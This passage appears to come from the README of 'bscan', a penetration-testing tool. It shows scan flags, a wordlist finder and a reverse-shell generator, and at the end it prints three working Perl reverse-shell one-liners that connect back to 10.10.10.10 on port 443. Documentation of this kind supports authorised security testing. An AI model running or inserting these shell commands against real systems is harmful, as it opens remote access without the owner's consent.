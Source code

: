 ```
                        required configuration files missing from this directory will
                        instead be loaded from the default files shipped with this
                        program
  --hard                force overwrite of existing directories
  --max-concurrency I   maximum integer number of subprocesses permitted to be running
                        concurrently (defaults to 20)
  --no-program-check    disable checking the presence of required system programs
  --no-file-check       disable checking the presence of files such as configured
                        wordlists
  --no-service-scans    disable running scans on discovered services
  --output-dir D        the base directory in which to write output files
  --patterns [ [ ...]]  regex patterns to highlight in output text
  --ping-sweep          enable ping sweep filtering of hosts from a network range
                        before running more intensive scans
  --quick-only          whether to only run the quick scan (and not include the
                        thorough scan over all ports)
  --qs-method S         the method for performing the initial TCP port scan; must
                        correspond to a configured port scan
  --status-interval I   integer number of seconds to pause in between printing status
                        updates; a non-positive value disables updates (defaults to 30)
  --ts-method S         the method for performing the thorough TCP port scan; must
                        correspond to a configured port scan
  --udp                 whether to run UDP scans
  --udp-method S        the method for performing the UDP port scan; must correspond
                        to a configured port scan
  --verbose-status      whether to print verbose runtime status updates, based on
                        frequency specified by `--status-interval` flag
  --version             program version
  --web-word-list F     the wordlist to use for scans
```


## Companion Tools

The main `bscan` program ships with two utility programs (`bscan-wordlists` and `bscan-shells`) to make your life a little easier when looking for wordlists and trying to open reverse shells.

`bscan-wordlists` is a program designed for finding wordlist files on Kali Linux. It searches a few default directories and allows for glob filename matching. Here's a simple example:
```sh
$ bscan-wordlists --find "*win*"
/usr/share/wordlists/wfuzz/vulns/dirTraversal-win.txt
/usr/share/wordlists/metasploit/sensitive_files_win.txt
/usr/share/seclists/Passwords/common-passwords-win.txt
```
Try `bscan-wordlists --help` to explore other options.

`bscan-shells` is a program that will generate a variety of reverse shell one-liners with `target` and `port` fields populated for you. Here's a simple example to list all Perl-based shells, configured to connect back to `10.10.10.10` on port `443`:
```sh
$ bscan-shells --port 443 10.10.10.10 | grep -i -A1 perl
perl for windows
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.10.10.10:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

perl with /bin/sh
perl -e 'use Socket;$i="10.10.10.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl without /bin/sh
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.10.10:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```